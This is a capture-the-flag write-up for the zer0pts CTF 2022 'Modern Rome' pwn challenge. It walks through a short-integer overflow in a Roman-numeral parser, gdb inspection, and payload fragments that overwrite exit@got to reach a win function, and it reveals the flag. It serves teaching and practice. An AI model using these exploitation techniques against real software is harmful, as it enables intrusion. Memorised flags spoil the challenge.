




# zer0pts CTF 2022 - Modern Rome

Original challenge link: https://2022.ctf.zer0pts.com/tasks/

You can also download chall file in my repo: [modern-rome.zip](modern-rome.zip)

Download the zip, then extract it and let's start!

# 1. Find bug

First, we will use `file` and `checksec` to get the basic information:

```bash
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=56e9bd22c71b88be6d1f336fcfcc733584d27d8c, for GNU/Linux 3.2.0, not stripped

$ checksec chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can see that `Canary found` so buffer overflow cannot be done. But we can also see that `Partial RELRO`, which means we can overwrite @got if we have the ability.

Next, we will read the source code to get the flow and we know that the function readroman() is absolutely interesting:

```c
short readroman(){
    short res = 0;
    std::string s;

    std::cin >> s;
    auto it = s.crbegin();

    int b = 1;
    for (auto c: "IXCM") {
        int cnt = 0;
        while (cnt < 9 && it != s.crend() && *it == c) {
            it++;
            cnt++;
        }
        res += b * cnt;
        b *= 10;
    }

    return res;
}
```

First, we input to the string `s` and then, it will be convert to a vector of string using `crbegin()`, which you can read [here](https://www.cplusplus.com/reference/vector/vector/crbegin/). One thing to notice is that `crbegin()` will take the string from the end and `crend()` will take the string from the begining.

Then, it will compare our string from bottom to up with the character of `c` from I, X, C, M and null byte. What? Null byte? Yeah, the for loop will loop 5 times with 5 characters is I, X, C, M and `\x00`.

You can modify the code to print the character `c` one by one like this:

```c
short readroman(){
    ...
    for (auto c: "IXCM") {
    	// Add this
    	int a = c;    // Change char to int
    	std::cout << a << std::endl;
        
        int cnt = 0;
        ...
    }
    ...
```

And we compile with `g++`, then run again and we get this:



So the program will compare if our input is equal to `c`, the while loop will be execute. And if we input full of 9 I or X or C or M or `\x00`, we will get the maximum number is `99999`.

We know that `res` in readroman() is defined as `short`, and the range data is just from -32768 to 32767, which you can found in [this article](https://docs.microsoft.com/vi-vn/cpp/cpp/data-type-ranges?view=msvc-160). And with the ability to sum up to `99999`, which add to `res` will cause **integer overflow**

# 2. Brainstorming

With the ability to make a negative index, we can change data before `buf`, particularly is exit@got because that's the only place we can overwrite. 

Summary:

1. Make `buf[ind]` point to exit@got
2. Change exit@got

# 3. Exploit

### Stage 1: Make `buf[ind]` point to exit@got

Remember that our input string will be check from bottom to up so our payload will look like this:

```python
payload = b'\x00'*a
payload += b'M'*b
payload += b'C'*c
payload += b'X'*d
payload += b'I'*e
```

With a, b, c, d, e we will use gdb and check until we find the correct number. After a while trying, we got this update payload for `ind`:

```python
payload = b'\x00'*6
payload += b'M'*5
payload += b'C'*1
payload += b'X'*6
payload += b'I'*4
```

Send that payload and we pause the program to attach gdb, then set breakpoint to check the address:

```bash
gef➤  disas main
   ...
   0x0000000000401562 <+205>:	lea    rdx,[rax+rax*1]
   0x0000000000401566 <+209>:	lea    rax,[rip+0x2dd3]        # 0x404340 <buf>
   0x000000000040156d <+216>:	mov    WORD PTR [rdx+rax*1],cx
   0x0000000000401571 <+220>:	mov    edi,0x0
   0x0000000000401576 <+225>:	call   0x4011a0 <exit@plt>
End of assembler dump.

gef➤  b*0x000000000040156d
Breakpoint 1 at 0x40156d
```

And type `c` to continue running to breakpoint, then check the address:



So we know it's correct. Let's move on!

### Stage 2: Change exit@got

Notice the breakpoint above, it move `cx` to the address, which we made it point to exit@got in the stage 1. And `cx` will just move 2 bytes to the value with that address so we just need to take 2 last bytes of win() function:



So we will need to write `4854` to last 2 bytes of exit@got and we have this second payload:

```python
payload = b'M'*4      # 4000
payload += b'C'*8     #  800
payload += b'X'*5     #   50
payload += b'I'*4     #    4
```

Just pass it to `val` and we get the shell. Full code: [solve.py](solve.py)

# 4. Get flag



Flag is `zer0pts{R0me_w1ll_3x1st_a5_1on9_4s_th3_Col1s3um_d0es}`